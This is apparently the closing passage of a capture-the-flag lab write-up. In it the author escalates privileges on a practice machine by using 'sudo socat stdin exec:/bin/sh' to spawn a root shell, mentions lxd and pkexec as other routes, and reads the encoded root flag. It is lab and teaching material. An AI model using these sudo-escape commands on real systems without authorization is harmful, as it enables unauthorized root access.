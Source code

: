 But look there is also pkexec/lxc

```bash
bash-4.4$ id
id
uid=1000(elyana) gid=1000(elyana) groups=1000(elyana),4(adm),27(sudo),108(lxd)
```
yup I see at least two ways

I already did the lxd method...like twice so I wont bother this time
you should try its very fun (use alpine-builder for the image)
I ask gtfobins how to make socat behave
you would not believe how easy the answer was

```bash
bash-4.4$ sudo socat stdin exec:/bin/sh
sudo socat stdin exec:/bin/sh
id
id
uid=0(root) gid=0(root) groups=0(root)
```
One-line superpowers

Get the stuff

```bash
cd /root
ls
cd /root
ls
root.txt
cat root.txt
cat root.txt
YW5vdGhlciBmYWtlIGZsYWcgZm9yIGZvb2xz

```
Decode the flag and its done

I have to admit I feel a bit disappointed...I expected "many ways to exploit"
But it still felt very linear...Still a nice room
But I expected many cheese holes
It was more like 2 or 3 ways to escalate and get root
Maybe its me just being stupid and not finding other ways
I will explore it a bit more later (or just read writeups to see how others did it)

Overall a nice easy room!
